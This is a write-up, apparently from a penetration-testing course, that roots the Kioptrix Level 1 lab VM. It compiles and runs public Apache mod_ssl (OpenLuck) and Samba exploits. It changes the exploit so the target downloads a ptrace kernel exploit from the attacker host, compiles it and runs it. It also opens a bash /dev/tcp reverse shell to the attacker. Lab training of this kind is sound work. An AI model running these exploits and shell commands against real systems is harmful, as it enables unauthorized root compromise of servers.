 .. _Kioptrix Lv1 Exploitation:

Exploitation
============

.. index::
   single: Metasploit
   single: SearchSploit

+-------------+----------------------------+
|**Reference**|:ref:`Metasploit`           |
|             |                            |
|             |:ref:`Python File Transfers`|
|             |                            |
|             |:ref:`SearchSploit`         |
+-------------+----------------------------+

Now that we've discovered a couple vulnerabilities in our target, we should prioritize them according to which we think will be the most likely to succeed (and the easiest to pull off). With that in mind, let's examine our two candidates.

First up, we have the `OpenFuck` exploits for `Apache`. There are three different `EDB-ID` entries listed. We can examine them with `SearchSploit`'s ``-x`` flag, followed by their ID number. The second exploit appears to be an improvement on the first, and the third an improvement on the second, so we'll put the first two aside and focus on the last exploit, with ID 47080. Looking through the source code, this version appears to have options for our target's operating system and `Apache` versions:

.. code-block:: c

    [...]
    {"RedHat Linux 7.2 (apache-1.3.20-16)1",0x080994e5},
    {"RedHat Linux 7.2 (apache-1.3.20-16)2",0x080994d4},
    [...]

We'll create a copy of this exploit using `SearchSploit`'s ``-m`` flag:

.. code-block:: none

    kali@kali:~$ searchsploit -m 47080
      Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
          URL: https://www.exploit-db.com/exploits/47080
         Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: /home/kali/47080.c

Examining the `Samba` exploit, we can likewise see that the target OS is listed in the exploit's available targets:

.. code-block:: c

    [...]
    { "samba-2.2.x - Redhat 7.x           ", 0xbffff310, linux_bindcode, 0 },
    [...]

We'll copy this exploit as well:

.. code-block:: none

    kali@kali:~$ searchsploit -m 10
      Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
          URL: https://www.exploit-db.com/exploits/10
         Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: /home/kali/10.c

Next, we'll attempt to compile both exploits. To keep track of which is which, we'll rename them appropriately:

.. code-block:: none

    kali@kali:~$ mv 47080.c OpenFuck.c
    kali@kali:~$ mv 10.c samba_exploit.c

Next, we'll compile each according to the instructions outlined within each file.


Compiling the mod_ssl Exploit
------------------------------
The `mod_ssl` exploit provides the following command line for compilation, but `Kali` responds with an error:

.. code-block:: none

    kali@kali:~$ gcc -o OpenFuck OpenFuck.c -lcrypto
    OpenFuck.c:21:10: fatal error: openssl/ssl.h: No such file or directory
       21 | #include <openssl/ssl.h>
          |          ^~~~~~~~~~~~~~~
    compilation terminated.

It appears we're missing the ``openssl/ssl.h`` file, which is necessary for compilation. Using Google, we can see if anyone else has had any luck compiling this exploit by searching for "compile openfuck.c kali" (see Figure 5).

.. figure:: images/5-google-openfuck.png
   :width: 400px
   :align: center
   :alt: Search results for "compile openfuck.c kali"

   Search results for "compile openfuck.c kali"

The first link directs us to a `Medium` article that has a series of steps for compiling the exploit. But the second link looks even more appealing: it's an updated version of the `OpenFuck` exploit created in 2018. This seems promising! Let's check it out.

Clicking the link takes us to a `GitHub repository <https://github.com/heltonWernik/OpenLuck>`_ containing the ``OpenFuck.c`` source code and a ``README.md`` file containing compilation instructions. First, we should download the ``OpenFuck.c`` file. To do this, click the ``OpenFuck.c`` link, then click the **Raw** button on the top right of the source-code listing. This will provide us with the plain-text version of the code, which we can copy-and-paste into an ``OpenLuck.c`` file on `Kali`.

After saving the updated ``OpenLuck.c`` source code, we'll return to the README page and follow the directions for compiling the software. First, it says to install the `libssl-dev` software using `apt-get`:

.. code-block:: none

    kali@kali:~$ sudo apt-get install libssl-dev
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    [...]
    Preparing to unpack .../libssl-dev_1.1.1d-2_amd64.deb ...
    Unpacking libssl-dev:amd64 (1.1.1d-2) ...
    Setting up libssl-dev:amd64 (1.1.1d-2) ...

.. note::

    If you're using a secondary `host-only` network to communicate between `Kali` and the target system, you might need to switch to the primary network interface in order to allow `Kali` to access the internet and install this software. Once you're done, you can switch back to the secondary network in order to continue targeting `Kioptrix`.

With the appropriate library installed, compile the `OpenLuck` binary. If everything goes correctly, you should see no output, and you'll find the `OpenLuck` executable in your current directory:


.. code-block:: none

    kali@kali:~$ gcc -o OpenLuck OpenLuck.c -lcrypto
    kali@kali:~$ ls -lah OpenLuck
    -rwxr-xr-x 1 kali kali 43K Apr  7 13:41 OpenLuck

Great! The exploit has been compiled. On to the next...


Compiling the Samba Exploit
---------------------------
Reading the source code of the ``samba_exploit.c`` file, we can see no special compilation instructions, so let's just compile it with a straightforward `gcc` command. We'll use the ``-o`` flag, followed by a filename, in order to name the resulting executable:

.. code-block:: none

    kali@kali:~$ gcc samba_exploit.c -o samba_exploit
    kali@kali:~$ ls -lah samba_exploit
    -rwxr-xr-x 1 kali kali 41K Apr  7 13:46 samba_exploit

As before, if compilation is successful, we should see no output from the `gcc` command, and the ``samba_exploit`` executable should be in the same directory.

Finally! It's time to test our exploits. Since we were able to compile both exploits, we'll just test them in alphabetical order: `Apache` first, then `Samba`.

.. warning::

    Before using any public exploits downloaded from the internet, it's always a good idea to read the exploit's source code. This is important for a number of reasons:

    * The exploit might require modification in order to work on your system or against your target.
    * By reading the source, you can gain a better understanding of how the exploit works.
    * Hackers have been known to release malicious "exploit" code which, when compiled and executed, actually harms the user's computer instead of working as expected. This has been done as an attack against "script kiddies" who download and run exploits without taking the time to understand how they work.

    By reading the source code of each exploit before you compile and execute it, you can not only improve your hacking knowledge and ensure that the code runs smoothly, but you can also protect yourself against malicious code.


Exploiting Apache's mod_ssl
---------------------------
To see how to run the ``OpenLuck`` exploit, we'll just execute the file with no command-line arguments:

.. code-block:: none

    kali@kali:~$ ./OpenLuck

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    : Usage: ./OpenLuck target box [port] [-c N]

      target - supported box eg: 0x00
      box - hostname or IP address
      port - port for ssl connection
      -c open N connections. (use range 40-50 if u dont know)


      Supported OffSet:
    [...]
            0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
            0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
    [...]

    Fuck to all guys who like use lamah ddos. Read SRC to have no surprise

According to the instructions, we must define the target of the exploit using a hexadecimal-formatted offset code, as well as the IP of the target. The port and ``-c N`` settings are optional, but we should at least specify the port to be as specific as possible.

Looking through the list of supported offsets (which I've pruned for brevity), we can see two possible options for `Red Hat Linux` version 7.2 with `Apache` version 1.3.20. Reading through the instructions provided on the `OpenLuck GitHub` page, it is advised to use the ``-c 40`` option to specify a count value of 40. Let's run the command, targeting `Kioptrix` on port 443:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6a 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
    * #hackarena  irc.brasnet.org                                     *
    * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
    * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
    * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
    *******************************************************************

    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f1c70
    Ready to send shellcode
    Spawning shell...
    Good Bye!

Curious... The exploit didn't work. Let's repeat the procedure, using the second offset (``0x6b``) and see if it works:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6b 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f8068
    Ready to send shellcode
    Spawning shell...
    bash: no job control in this shell
    bash-2.05$
    exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
    --18:39:24--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to dl.packetstormsecurity.net:80...
    dl.packetstormsecurity.net: Host not found.
    gcc: ptrace-kmod.c: No such file or directory
    gcc: No input files
    rm: cannot remove `ptrace-kmod.c': No such file or directory
    bash: ./p: No such file or directory
    bash-2.05$
    bash-2.05$

We got a shell! But what's all this about ``dl.packetstormsecurity.net``? Looking back at the source code to the exploit, we will discover the following lines:

.. code-block:: c

    [...]
    #define COMMAND1 "TERM=xterm; export TERM=xterm; exec bash -i\n"
    #define COMMAND2 "unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
    [...]

Curious! From the looks of it, upon receiving a shell, the exploit attempts to execute these two commands on the target system. The first seems normal enough, but the second looks like it's reaching out to ``dl.packetstormsecurity.net`` to download and compile additional code. While this might work fine on a target connected to the Internet, I've configured `Kioptrix` to use a `host-only` network, which prevents it from being able to communicate with the outside world. Therefore, when it attempts to download this file, the download will fail, and the exploit will not run.

Despite this error, we've still got a shell. To which account do we have access?

.. code-block:: none

    bash-2.05$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache)

We're logged in as the ``apache`` user. From here, we would typically need to find a method of privilege escalation in order to gain access to the ``root`` account... But perhaps this is what the `OpenLuck` script was trying to do by downloading that file from `packetstormsecurity.net`?

Let's fix this script and see if we can grant `OpenLuck` access to this ``ptrace-kmod.c`` file. First, we'll download the ``ptrace-kmod.c`` file from `the specified URL <http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c>`_, making sure to inspect this code to see what it's doing. As suspected, it appears to be a `Linux` kernel privilege-escalation exploit. Copy the contents of this file, then paste them into a file called ``ptrace-kmod.c`` on your `Kali` system. Next, we'll need to modify the ``OpenLuck.c`` source code to download this file from our `Kali` host. Change the code as follows, injecting your own IP into ``COMMAND2``:

.. code-block:: c

    [...]
    #define COMMAND1 "TERM=xterm; export TERM=xterm; exec bash -i\n"
    #define COMMAND2 "unset HISTFILE; cd /tmp; wget http://10.1.1.100/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
    [...]

Next, re-compile the software as before:

.. code-block:: none

    kali@kali:~$ gcc -o OpenLuck OpenLuck.c -lcrypto

With this complete, we only have one more step to accomplish before we can run the exploit against the target once more: we need to host the ``ptrace-kmod.c`` file with an HTTP server so that the target system can download it according to the command we provided. To accomplish this, open a new terminal in the same directory where the ``ptrace-kmod.c`` file is stored, and use `Python 3` to launch an HTTP server:

.. _Koptrix Lv1 Python HTTP Server:

.. code-block:: none

    kali@kali:~$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

With this `Python 3` HTTP server in-place, let's run the exploit one more time:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6b 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f8068
    Ready to send shellcode
    Spawning shell...
    bash: no job control in this shell
    bash-2.05$
     p ptrace-kmod.c; rm ptrace-kmod.c; ./p; http://10.1.1.100/ptrace-kmod.c; gcc -o
    --18:46:07--  http://10.1.1.100/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to 10.1.1.100:80... connected!
    HTTP request sent, awaiting response... 200 OK
    Length: 3,737 [text/plain]

        0K ...                                                   100% @   3.56 MB/s

    18:46:07 (3.56 MB/s) - `ptrace-kmod.c' saved [3737/3737]

    [+] Attached to 1411
    [+] Waiting for signal
    [+] Signal caught
    [+] Shellcode placed at 0x4001189d
    [+] Now wait for suid shell...

Bingo! Checking on our `Python 3` HTTP server, we can see that the target downloaded the ``ptrace-kmod.c`` file:

.. code-block:: none

    kali@kali:~$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.1.1.102 - - [07/Apr/2020 14:45:52] "GET /ptrace-kmod.c HTTP/1.0" 200 -

To top it off, it appears as if the secondary exploit was successfully compiled and executed on the target. There's no visible command prompt, but perhaps if we execute the `id` and `whoami` commands, we can figure out whether the privilege escalation attack was successful:

.. code-block:: none

    id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
    whoami
    root

Excellent! We've got a shell as the ``root`` user! We have successfully completed this challenge. But what about that `Samba` exploit? Let's see if we can get it working, too. After all, if this were a real penetration test, the goal wouldn't just be to "get root," but to reveal and demonstrate all of the vulnerabilities on the system.


Exploiting Samba
----------------
Let's run the `Samba` exploit without any command-line arguments, just to see how it works:

.. code-block:: none

    kali@kali:~$ ./samba_exploit
    samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
    --------------------------------------------------------------
    Usage: ./samba_exploit [-bBcCdfprsStv] [host]

    -b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
    -B <step>       bruteforce steps (default = 300)
    -c <ip address> connectback ip address
    -C <max childs> max childs for scan/bruteforce mode (default = 40)
    -d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
    -f              force
    -p <port>       port to attack (default = 139)
    -r <ret>        return address
    -s              scan mode (random)
    -S <network>    scan mode
    -t <type>       presets (0 for a list)
    -v              verbose mode

From the looks of it, we'll need to specify the platform at a minimum, using the ``-b`` flag. Let's give it a shot:

.. code-block:: none

    kali@kali:~$ ./samba_exploit -b 0 10.1.1.102
    samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
    --------------------------------------------------------------
    + Bruteforce mode. (Linux)
    + Host is running samba.
    + Worked!
    --------------------------------------------------------------
    *** JE MOET JE MUIL HOUWE
    Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
    uid=0(root) gid=0(root) groups=99(nobody)

The exploit worked quickly and effectively, and immediately granted root privileges! Can we get a better shell with `bash`? Let's give it a shot. First, we'll start a `netcat` listener on port 443:

.. code-block:: none

    kali@kali:~$ sudo nc -vnlp 443
    listening on [any] 443 ...

Next, execute the following command in the `Samba` exploit terminal:

.. code-block:: none

    nohup bash -i >& /dev/tcp/10.1.1.100/443 0>&1 &

By using the `nohup` command, we can ensure that our new reverse shell will remain open, even if the original `Samba` exploit shell should be closed. Returning to `netcat`, we've got a `bash` shell:

.. code-block:: none

    kali@kali:~$ sudo nc -vnlp 443
    listening on [any] 443 ...
    connect to [10.1.1.100] from (UNKNOWN) [10.1.1.102] 32773
    bash: no job control in this shell
    stty: standard input: Invalid argument
    [root@kioptrix tmp]#

Well done! We've successfully rooted this system via two different exploits.
